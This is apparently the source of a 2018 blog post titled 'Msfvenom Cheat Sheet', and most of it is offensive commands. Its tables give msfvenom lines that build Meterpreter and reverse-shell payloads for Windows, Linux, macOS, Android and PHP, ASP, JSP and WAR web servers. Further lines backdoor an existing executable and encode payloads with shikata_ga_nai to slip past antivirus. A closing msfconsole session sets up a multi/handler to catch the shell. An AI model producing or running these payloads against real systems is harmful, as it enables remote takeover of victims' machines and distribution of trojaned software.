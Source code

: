 ```yaml
---
layout: post
title: Msfvenom Cheat Sheet
date: 2018-07-24 18:58 -0300
categories: [cheatsheet, offensive_security]
tags: [ offensive security, cheat sheet, reverse shell, backdoor, bash, perl, python, PHP]
---
```


![Image of msfconsole](/uploads/Screenshot%20from%202018-07-25%2001-11-02.png)

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Binaries

| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe | Creates a simple TCP Payload for Windows |
|msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe | Creates a simple HTTP Payload for Windows |
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf | Creates a simple TCP Shell for Linux |
|msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho | Creates a simple TCP Shell for Mac |
|msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk | Creats a simple TCP Payload for Android |

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-0255642880549652"
     data-ad-slot="6407748687"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

## Web Payloads

| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php | Creats a Simple TCP Shell for PHP |
|msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp | Creats a Simple TCP Shell for ASP |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp | Creats a Simple TCP Shell for Javascript |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war | Creats a Simple TCP Shell for WAR |

## Windows Payloads

| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -l encoders | Lists all avalaible encoders|
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe | Binds an exe with a Payload (Backdoors an exe) | 
|msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe > example.exe | Creates a simple TCP payload with shikata_ga_nai encoder |
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > example.exe | Binds an exe with a Payload and encodes it |

### How do I get the meterprater shell?

```bash
nli@nlistation:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
